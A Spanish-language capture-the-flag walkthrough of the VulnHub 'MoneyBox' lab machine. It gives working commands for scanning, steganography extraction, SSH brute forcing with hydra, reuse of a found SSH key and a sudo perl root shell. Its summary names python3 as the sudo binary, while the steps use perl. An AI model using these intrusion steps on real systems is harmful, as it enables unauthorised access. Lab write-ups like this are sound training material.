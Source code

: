 ```yaml
---
Title: "MoneyBox — Walkthrough"
Author: "Pxlymxrph"
Level: "Easy / eJPT-ish"
Target: "VulnHub - MoneyBox"
url: "https://www.vulnhub.com/entry/moneybox-1,653/"
Date: 2025-09-25
Tags: [ctf, vulnhub, linux, ssh, privesc, steganography, enum]
---
```


# MoneyBox — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — MoneyBox (link arriba)  
**Objetivo:** Encontrar las 3 flags y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- Fuzzing web reveló `/blogs/`. FTP entregó una imagen con steganografía → usuario `renu`.  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `renu`.  
- Encontré `.ssh/id_rsa` → `lily`. `sudo -l` muestra `/usr/bin/python3 /opt/backup.py` NOPASSWD → uso de GTFObins/Perl para shell root.  
- Flags: user, lily, root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.78**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.78` (confirma Linux).

![1.png](Images/1.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
```
![1.2.png](Images/1.2.png)

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.78
```
![2.png](Images/2.png)

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.78/
curl "http://192.168.1.78/"
```

![3.png](Images/3.png)

Página estática con mensaje de “hacked”. Primer vistazo sin info útil.

![4.png](Images/4.png)

## 4) Fuzzing de directorios
Fuzzing con `gobuster` / `dirsearch`:

```bash
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Descubro `/blogs/`. En la fuente del blog aparece una nota que sugiere otra ruta.

![5.png](Images/5.png)

## 5) Pista en el HTML
Inspección manual del HTML mostró una contraseña/nota oculta en comentarios — la guardé como pista.

![6.png](Images/6.png)

## 6) FTP — descarga de imagen
Ingreso anónimo a FTP y descargo `trytofind.jpg`:

```bash
ftp 192.168.1.78
# anonymous login
get trytofind.jpg
```

![7.png](Images/7.png)

## 7) Steganografía en la imagen
Pruebo herramientas habituales:

```bash
exiftool trytofind.jpg
stegseek trytofind.jpg rockyou.txt
steghide extract -sf trytofind.jpg
```

`steghide` devuelve un mensaje y un usuario: **renu**.

![9.1.png](Images/9.1.png)

![9.png](Images/9.png)

## 8) Fuerza bruta SSH (laboratorio)
Intento controlar SSH con `hydra` (en laboratorio):

```bash
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
```

Obtuve la contraseña válida.

![10.png](Images/10.png)

## 9) Acceso y enumeración local
Ingreso con `renu`:

```bash
ssh renu@192.168.1.78
cat /home/renu/user.txt   # flag user
```

![11.png](Images/11.png)

## 10) Movimiento lateral hacia `lily`
Busco mas usuarios a través del `/etc/passwd` con `cat`. En `/home/renu` hallo `.ssh/id_rsa`. Uso la llave para entrar a `lily`:

```bash
cat /etc/passwd | grep "/bin/bash"
ssh -i /home/renu/.ssh/id_rsa lily@localhost
```

Accedo a `lily` y obtengo la segunda flag.

![12.png](Images/12.png)

![13.png](Images/13.png)

## 11) Escalada a root
Como `lily` ejecuto `sudo -l`:

```bash
sudo -l
# muestra: (ALL) NOPASSWD: /usr/bin/perl
```

Uso un vector conocido (GTFObins / Perl) para obtener shell root:

```bash
sudo perl -e 'exec "/bin/sh";'
```

![16.png](Images/16.png)

![17.png](Images/17.png)

Consigo shell root y la flag final.

![18.png](Images/18.png)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.78 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.78
whatweb http://192.168.1.78/
gobuster dir -u http://192.168.1.78/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
ftp 192.168.1.78
steghide extract -sf trytofind.jpg
hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.78
ssh renu@192.168.1.78
ssh -i /home/renu/.ssh/id_rsa lily@localhost
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

## Conclusión
MoneyBox es un reto clásico: enum → stego → brute → lateral move → sudo privesc. Buen ejercicio para pulir cadena completa de ataque y detección de vectores básicos.
